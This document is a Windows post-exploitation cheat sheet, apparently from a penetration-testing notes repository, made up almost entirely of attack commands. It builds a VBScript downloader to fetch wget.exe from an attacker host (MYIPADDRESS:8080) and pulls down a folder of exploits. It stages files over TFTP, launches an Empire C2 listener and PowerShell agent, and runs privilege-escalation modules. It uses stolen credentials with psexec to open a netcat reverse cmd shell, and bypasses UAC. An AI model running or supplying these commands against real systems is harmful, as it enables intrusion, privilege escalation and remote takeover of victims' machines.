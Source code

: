 ```
echo strUrl = WScript.Arguments.Item(0) > wget.vbs && echo StrFile = WScript.Arguments.Item(1) >> wget.vbs && echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs && echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs && echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs && echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs && echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs && echo Err.Clear >> wget.vbs && echo Set http = Nothing >> wget.vbs && echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs && echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs && echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs && echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs && echo http.Open "GET", strURL, False >> wget.vbs && echo http.Send >> wget.vbs && echo varByteArray = http.ResponseBody >> wget.vbs && echo Set http = Nothing >> wget.vbs && echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs && echo Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs && echo strData = "" >> wget.vbs && echo strBuffer = "" >> wget.vbs && echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs && echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs && echo Next >> wget.vbs && echo ts.Close >> wget.vbs

cscript.exe wget.vbs http://MYIPADDRESS:8080/wget.exe wget.exe

wget.exe http://MYIPADDRESS:8080/ -r && move MYIPADDRESS+8080 exploits && cd exploits && del index.html

START /B windows-privesc-check2.exe --audit -a -o wpc-report && START /B accesschk.exe -uwcqv "Authenticated Users" * /accepteula

Windows XP and Server 2003:
Host:
atftpd --daemon --port 69 /root/Dropbox/Scripts/Post_Windows/uploads
Target:
tftp -i INSERTIPADDRESS GET wget.exe

***If Windows 7 and above***

Empire:
python /opt/Empire/empire
listeners
uselistener http
set Name INSERTIPADDRESS
set Host http://MYIPADDRESS:8080
execute

launcher powershell INSERTIPADDRESS

Once you get a connection
agents
interact <agent_name>
usemodule privesc/powerup/allchecks
set Agent <agent_name>
execute 
***Let run for a few minutes

If you get creds:
nc -lvnp 6666
psexec -u alice -p aliceishere -c "nc.exe" MYIPADDRESS 6666 -e cmd 

Else:
bypassuac INSERTIPADDRESS

usemodule privesc/bypassuac_wscript
set Listener INSERTIPADDRESS
execute

```
